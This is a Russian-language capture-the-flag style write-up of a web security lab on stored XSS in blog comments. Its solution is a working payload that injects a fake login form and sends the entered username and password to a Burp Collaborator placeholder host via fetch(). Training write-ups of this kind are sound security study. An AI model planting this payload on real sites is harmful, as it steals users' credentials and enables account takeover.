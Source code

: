 Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Имитированный пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы выкрасть имя пользователя и пароль жертвы, а затем используйте эти учетные данные для входа в учетную запись жертвы.

## Дано

- уязвимость XSS в функции комментариев
## Задача

- украсть имя пользователя и пароль
- зайти под учёткой
# Решение

1. Проверяем инъекцию
2. Инъекция есть пишем код
```
<div style="margin: 20px; padding: 20px; border: 1px solid #ccc; border-radius: 5px; background: #f9f9f9;">
  <h3 style="font-size: 18px; color: #333;">Please into system</h3>
  <label for="username" style="display: block; margin-bottom: 10px; font-weight: bold;">
    Username:
  </label>
  <input
    type="text"
    id="username"
    name="username"
    placeholder="Enter your login"
    style="width: 100%; padding: 8px; margin-bottom: 15px; border: 1px solid #ccc; border-radius: 4px;"
  />
  <label for="password" style="display: block; margin-bottom: 10px; font-weight: bold;">
    Passwd:
  </label>
  <input
    type="password"
    id="password"
    name="password"
    placeholder="Enter your passwd"
    style="width: 100%; padding: 8px; margin-bottom: 15px; border: 1px solid #ccc; border-radius: 4px;"
    onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body: username.value + ':' + this.value
    });"
  />
  <button
    style="background: #007bff; color: white; padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer;"
    onclick="alert('Error.');"
  >
	Login into
  </button>
</div>
```